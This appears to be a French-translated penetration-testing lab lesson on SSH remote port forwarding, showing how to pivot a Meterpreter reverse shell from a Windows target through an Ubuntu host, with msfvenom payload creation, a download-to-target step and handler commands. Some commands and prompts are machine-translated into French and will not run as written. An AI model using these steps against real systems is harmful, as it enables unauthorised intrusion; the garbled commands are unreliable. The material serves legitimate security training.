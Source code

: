 Transfert de port distant/inversé avec SSH
=======================================

* * * * *

Nous avons vu le transfert de port local, où SSH peut écouter sur notre hôte local et transférer un service sur l'hôte distant vers notre port, et le transfert de port dynamique, où nous pouvons envoyer des paquets à un réseau distant via un hôte pivot. Mais parfois, nous pouvons également souhaiter transférer un service local vers le port distant. Considérons le scénario dans lequel nous pouvons RDP dans l'hôte Windows `Windows A`. Comme on peut le voir dans l'image ci-dessous, dans notre cas précédent, nous pouvions pivoter vers l'hôte Windows via le serveur Ubuntu.

![](https://academy.hackthebox.com/storage/modules/158/33.png)

"Mais que se passe-t-il si nous essayons d'obtenir un shell inversé ?"

La `connexion sortante` pour l'hôte Windows est uniquement limitée au réseau `172.16.5.0/23` . En effet, l'hôte Windows n'a aucune connexion directe avec le réseau sur lequel se trouve l'hôte d'attaque. Si nous démarrons un écouteur Metasploit sur notre hôte d'attaque et essayons d'obtenir un shell inversé, nous ne pourrons pas obtenir une connexion directe ici car le serveur Windows ne sait pas comment acheminer le trafic quittant son réseau (172.16.5.0/ 23) pour atteindre le 10.129.x.x (le réseau Academy Lab).

Il y a plusieurs fois au cours d'un engagement de test d'intrusion où il n'est pas possible d'avoir juste une connexion de bureau à distance. Vous souhaiterez peut-être `charger`/`télécharger` des fichiers (lorsque le presse-papiers RDP est désactivé), `utiliser des exploits` ou  `l'API Windows de bas niveau` à l'aide d'une session Meterpreter pour effectuer une énumération sur l'hôte Windows, ce qui n'est pas possible avec les [exécutables Windows] intégrés (https://lolbas-project.github.io/).

Dans ces cas, nous devrions trouver un hôte pivot, qui est un point de connexion commun entre notre hôte d'attaque et le serveur Windows. Dans notre cas, notre hôte pivot serait le serveur Ubuntu puisqu'il peut se connecter à la fois : `notre hôte d'attaque` et `la cible Windows`. Pour obtenir un `shell Meterpreter` sur Windows, nous allons créer une charge utile HTTPS Meterpreter à l'aide de `msfvenom`, mais la configuration de la connexion inverse pour la charge utile serait l'adresse IP hôte du serveur Ubuntu (`172.16.5.129`). Nous utiliserons le port 8080 sur le serveur Ubuntu pour transférer tous nos paquets inverses vers le port 8000 de nos hôtes d'attaque, où notre écouteur Metasploit s'exécute.

#### Création d'une charge utile Windows avec msfvenom

Créer une charge utile Windows avec msfvenom

```
dsgsec@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InteralIPofPivotHost> -f exe -o backupscript.exe LPORT=8080

[-] Aucune plate-forme n'a été sélectionnée, en choisissant Msf::Module::Platform::Windows à partir de la charge utile
[-] Aucune arche sélectionnée, sélection de l'arche : x64 à partir de la charge utile
Aucun encodeur spécifié, sortie de données utiles brutes
Taille de la charge utile : 712 octets
Taille finale du fichier exe : 7168 octets
Enregistré sous : backupscript.exe

```

#### Configuration et démarrage du multi/handler

Configurer et démarrer le multi/handler

```
msf6 > utiliser exploit/multi/gestionnaire

[*] Utilisation de la charge utile configurée generic/shell_reverse_tcp
msf6 exploit(multi/handler) > définir la charge utile windows/x64/meterpreter/reverse_https
charge utile => windows/x64/meterpreter/reverse_https
exploit msf6 (multi/gestionnaire)> définir lhost 0.0.0.0
lhost => 0.0.0.0
exploit msf6 (multi/gestionnaire)> définir lport 8000
lport => 8000
exploit msf6 (multi/gestionnaire)> exécuter

[*] Démarrage du gestionnaire inverse HTTPS sur https://0.0.0.0:8000

```

Une fois que notre charge utile est créée et que notre écouteur est configuré et en cours d'exécution, nous pouvons copier la charge utile sur le serveur Ubuntu à l'aide de la commande `scp` puisque nous avons déjà les informations d'identification pour nous connecter au serveur Ubuntu à l'aide de SSH.

#### Transfert de la charge utile vers l'hôte pivot

Transfert de la charge utile vers l'hôte pivot

```
dsgsec@htb[/htb]$ scp backupscript.exe ubuntu@<ipAddressofTarget> :~/

backupscript.exe 100% 7168 65.4KB/s 00:00

```

Après avoir copié la charge utile, nous allons démarrer un `serveur HTTP python3` à l'aide de la commande ci-dessous sur le serveur Ubuntu dans le même répertoire où nous avons copié notre charge utile.

#### Démarrage du serveur Web Python3 sur l'hôte pivot

Démarrage du serveur Web Python3 sur l'hôte pivot

```
ubuntu@Webserver$ python3 -m http.serveur 8123

```

#### Téléchargement de la charge utile à partir de la cible Windows

Nous pouvons télécharger ce `backupscript.exe` à partir de l'hôte Windows via un navigateur Web ou l'applet de commande PowerShell `Invoke-WebRequest`.

Téléchargement de la charge utile à partir de la cible Windows

```
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"

```

Une fois que nous aurons téléchargé notre charge utile sur l'hôte Windows, nous utiliserons `le transfert de port distant SSH` pour transférer le service d'écoute de notre msfconsole sur le port 8000 vers le port 8080 du serveur Ubuntu. Nous utiliserons l'argument `-vN` dans notre commande SSH pour faire il est verbeux et lui demande de ne pas demander au shell de connexion. La commande `-R` demande au serveur Ubuntu d'écouter sur `<targetIPaddress>:8080` et de transférer toutes les connexions entrantes sur le port `8080` à notre écouteur msfconsole sur `0.0.0.0:8000` de notre `hôte d'attaque`.

#### Utilisation de SSH-R

Utilisation de SSH-R

```
dsgsec@htb[/htb]$ ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN

```

Après avoir créé le transfert de port distant SSH, nous pouvons exécuter la charge utile à partir de la cible Windows. Si la charge utile est exécutée comme prévu et tente de se reconnecter à notre écouteur, nous pouvons voir les journaux du pivot sur l'hôte pivot.

#### Affichage des journaux à partir du pivot

Affichage des journaux à partir du pivot

```
ebug1 : client_request_forwarded_tcpip : écoute 172.16.5.129 port 8080, expéditeur 172.16.5.19 port 61355
debug1 : connect_next : hôte 0.0.0.0 ([0.0.0.0] :8000) en cours, fd=5
debug1 : canal 1 : nouveau [172.16.5.19]
debug1 : confirmez le TCP transféré
debug1 : canal 0 : libre : 172.16.5.19, nchannels 2
debug1 : canal 1 : connecté au port 0.0.0.0 8000
debug1 : canal 1 : libre : 172.16.5.19, nchannels 1
debug1 : client_input_channel_open : ctype transmis-tcpip rchan 2 win 2097152 max 32768
debug1 : client_request_forwarded_tcpip : écoute 172.16.5.129 port 8080, expéditeur 172.16.5.19 port 61356
debug1 : connect_next : hôte 0.0.0.0 ([0.0.0.0] :8000) en cours, fd=4
debug1 : canal 0 : nouveau [172.16.5.19]
debug1 : confirmez le TCP transféré
debug1 : canal 0 : connecté au port 0.0.0.0 8000

```

Si tout est correctement configuré, nous recevrons un shell Meterpreter pivoté via le serveur Ubuntu.

#### Session Meterpreter établie

Session Meterpreter établie

```
[*] Démarrage du gestionnaire inverse HTTPS sur https://0.0.0.0:8000
[!] https://0.0.0.0:8000 demande de traitement de 127.0.0.1 ; (UUID : x2hakcz9) Sans une base de données connectée, le suivi UUID de la charge utile ne fonctionnera pas !
[*] https://0.0.0.0:8000 demande de traitement de 127.0.0.1 ; (UUID : x2hakcz9) Charge utile x64 intermédiaire (201 308 octets)...
[!] https://0.0.0.0:8000 demande de traitement de 127.0.0.1 ; (UUID : x2hakcz9) Sans une base de données connectée, le suivi UUID de la charge utile ne fonctionnera pas !
[*] Session Meterpreter 1 ouverte (127.0.0.1:8000 -> 127.0.0.1 ) au 2022-03-02 10:48:10 -0500

compteur> shell
Processus 3236 créé.
Canal 1 créé.
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. Tous les droits sont réservés.

C:\>

```

Notre session Meterpreter doit indiquer que notre connexion entrante provient d'un hôte local lui-même (`127.0.0.1`) puisque nous recevons la connexion via le `socket SSH local`, qui a créé une connexion `sortante` vers le serveur Ubuntu. L'exécution de la commande `netstat` peut nous montrer que la connexion entrante provient du service SSH.

La représentation graphique ci-dessous fournit une autre manière de comprendre cette technique.

![](https://academy.hackthebox.com/storage/modules/158/44.png)

En plus de répondre aux questions d'identification, pratiquez cette technique et essayez d'obtenir un shell inversé à partir de la cible Windows.